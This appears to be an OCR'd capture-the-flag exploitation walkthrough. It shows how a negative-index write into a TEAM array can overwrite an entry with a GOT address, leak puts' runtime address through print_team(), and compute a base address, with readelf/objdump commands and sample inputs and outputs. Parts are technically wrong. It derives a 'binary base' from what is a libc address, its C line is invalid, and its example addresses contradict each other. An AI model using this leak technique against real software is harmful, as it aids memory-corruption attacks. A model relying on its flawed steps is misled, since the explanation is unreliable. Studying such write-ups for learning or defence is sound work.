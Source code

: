 
### **3. Steps to Leak a GOT Address**
#### **Step 1: Identify the GOT Entry to Leak**
- A GOT entry stores the address of a dynamically linked function (e.g., `puts`, `exit`, or `printf`).
- Use a tool like `objdump` or `readelf` to find GOT entries. For example:
  ```
  readelf -r <binary>
  ```
  Look for entries such as:
  ```
  0xdeadbeef  0x55555555  R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
  ```
  This tells you the GOT entry for `puts` is at `0xdeadbeef`.

#### **Step 2: Overwrite `TEAM` with a GOT Entry**
- Use the negative index exploit to overwrite a `TEAM` entry with the address of a GOT entry.
- For example, if the GOT entry for `puts` is located near `data_start`:
  ```c
  TEAM[-1] = &puts@GOT;  // Using the negative index exploit
  ```

#### **Step 3: Print the GOT Entry**
- Call `print_team()` to display the overwritten `TEAM` entry, which now contains the runtime address of `puts`.
- Example output:
  ```
  +-------------------------------------------------------------------------------+
  | [*] 1: 0x7ffff7e40000                                                        |
  +-------------------------------------------------------------------------------+
  ```
  This leaks the address of `puts()`.

#### **Step 4: Calculate the Base Address**
- Use the leaked address of `puts` to calculate the base address of the binary.
- Subtract the known offset of `puts` from the leaked address to get the base address:
  ```
  binary_base_address = leaked_puts_address - known_offset_of_puts;
  ```
  You can find the offset of `puts` using `readelf` or `objdump`:
  ```
  objdump -T <binary> | grep puts
  ```

---

### **4. Example of Leaking an Address**
#### Scenario:
- `puts@GOT` is at an offset of `0x201000` relative to the base address of the binary.
- At runtime, the GOT entry for `puts` contains the address `0x7ffff7e12345`.

#### Exploitation Steps:
1. Overwrite `TEAM[-1]` with the address of `puts@GOT`:
   ```bash
   Enter index: -1
   Enter nickname: 0xdeadbeef (address of puts@GOT)
   ```
2. Call `print_team()`:
   ```bash
   +-------------------------------------------------------------------------------+
   | [*] 1: 0x7ffff7e12345                                                        |
   +-------------------------------------------------------------------------------+
   ```
   This leaks the runtime address of `puts()`.
